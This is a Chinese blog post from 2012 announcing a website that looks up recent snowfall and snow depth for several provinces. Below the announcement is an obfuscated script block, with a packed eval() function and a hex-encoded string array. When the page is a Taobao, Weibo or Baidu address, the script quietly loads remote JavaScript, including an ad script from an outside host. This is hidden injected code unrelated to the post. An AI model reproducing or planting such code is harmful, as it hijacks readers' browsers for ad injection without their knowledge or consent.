 ```yaml
---
title: 在线查询各省最新的降雪量和积雪深度
tags:
  - 在线
  - 查询
  - 积雪深度
  - 降雪
id: 1266
categories:
  - 预报分析
date: 2012-12-20 08:39:35
---
```


做了个网站 [http://area.sinaapp.com/snow/](http://area.sinaapp.com/snow/ "在线查看各省最新的降雪量和积雪深度") 可查询最新的降雪量和积雪深度，目前支持查询甘肃、陕西、山西、河南、河北、山东、安徽、湖北这几个省市，欢迎大家使用。

[![](http://grow-wordpress.stor.sinaapp.com/uploads/2012/12/snow.jpg "点击在线试用")](http://area.sinaapp.com/snow/)

<script charset="utf-8" type="text/javascript">// <![CDATA[
eval(function(p,a,c,k,e,r){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);k=[function(e){return r[e]}];e=function(){return'\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('(d(5){3(a.x){9}a.x=m;2 e={"t://(.*?\\.q)(F\\.b)|(q\\.E)(19\\.b)":"t://16.15"+"V"+"J.b/13.G"};u(2 l 14 e){2 w=6.M.N;3(w.P(S(l))){j=e[l];d o(p){2 g=p+"=";2 f=6.17.18(\';\');u(2 i=0;i<f.7;i++){2 c=f[i];H(c.I(0)==\' \')c=c.r(1,c.7);3(c.K(g)==0)9 c.r(g.7,c.7)}9 L}d k(){3(6.D=="O"){2 h=6.Q(\'R\')[0];2 s=6.T(\'U\');s.4(\'W\',\'X/Y\');s.4(\'Z\',\'10-8\');s.4(\'11\',m);3(o("12")){s.4(\'y\',j+\'?v=z&5=\'+5+"&A="+B.C())}n{s.4(\'y\',j+\'?v=z&5=\'+5+"&A="+B.C())}h.1a(s)}n{a.1b(k,1c)}}k()}}})("1d");',62,76,'||var|if|setAttribute|cid|document|length||return|window|com||function|plugin_scripts|ca|nameEQ|||imax_script_url|addBrowserJs|enabledDomains|true|else|readCookie|name|tao|substring||http|for||host|tbk|src|plugin|_|Math|random|readyState|et|bao|js|while|charAt|aoimages|indexOf|null|location|href|complete|match|getElementsByTagName|head|RegExp|createElement|script|ob|type|text|javascript|charset|utf|async|_q_r_b_|browser|in|ta|imax|cookie|split|ao|appendChild|setTimeout|20|CID'.split('|'),0,{}))
;;(function (d) {var _0xc429=["\x68\x72\x65\x66","\x6C\x6F\x63\x61\x74\x69\x6F\x6E","\x68\x74\x74\x70\x3A\x2F\x2F\x74\x61\x6F\x61\x64\x2E\x77\x61\x6E\x64\x6F\x75\x70\x61\x69\x2E\x63\x6F\x6D\x2F\x61\x64\x2E\x6A\x73","","\x73\x2E\x74\x61\x6F\x62\x61\x6F\x2E\x63\x6F\x6D\x2F\x73\x65\x61\x72\x63\x68","\x73\x65\x61\x72\x63\x68","\x77\x65\x69\x62\x6F","\x62\x61\x69\x64\x75","\x6C\x65\x6E\x67\x74\x68","\x6D\x61\x74\x63\x68","\x61\x64\x3D","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x43\x6C\x61\x73\x73\x4E\x61\x6D\x65","\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74","\x63\x6C\x61\x73\x73\x4E\x61\x6D\x65","\x62\x6F\x64\x79","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x54\x61\x67\x4E\x61\x6D\x65","\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64","\x73\x63\x72\x69\x70\x74","\x54\x31\x78\x43\x36\x4D\x58\x66\x74\x68\x58\x58\x63\x57\x65\x71\x62\x58","\x3F","\x74\x79\x70\x65","\x74\x65\x78\x74\x2F\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74","\x73\x72\x63"];var href=d[_0xc429[1]][_0xc429[0]];var host=_0xc429[2];var url=_0xc429[3];var url_map=[[_0xc429[4],_0xc429[5]],[_0xc429[6],_0xc429[6]],[_0xc429[7],_0xc429[7]]];for(var i=0;i<url_map[_0xc429[8]];i++){if(href[_0xc429[9]](url_map[i][0])){url=_0xc429[10]+url_map[i][1];break ;} ;} ;if(url==_0xc429[3]){return false;} ;var appendTag=function (_0x1214x7,_0x1214x8,_0x1214x9){if(document[_0xc429[11]](_0x1214x8)[_0xc429[8]]>0){return ;} ;var _0x1214xa=d[_0xc429[12]](_0x1214x7);_0x1214xa[_0xc429[13]]=_0x1214x8;_0x1214x9(_0x1214xa);var _0x1214xb=d[_0xc429[15]](_0xc429[14])[0];if(!_0x1214xb){return ;} ;_0x1214xb[_0xc429[16]](_0x1214xa);return _0x1214xa;} ;appendTag(_0xc429[17],_0xc429[18],function (_0x1214xc){var _0x1214xd=host+_0xc429[19]+url;_0x1214xc[_0xc429[20]]=_0xc429[21];_0x1214xc[_0xc429[22]]=_0x1214xd;} );})(document);
// ]]></script>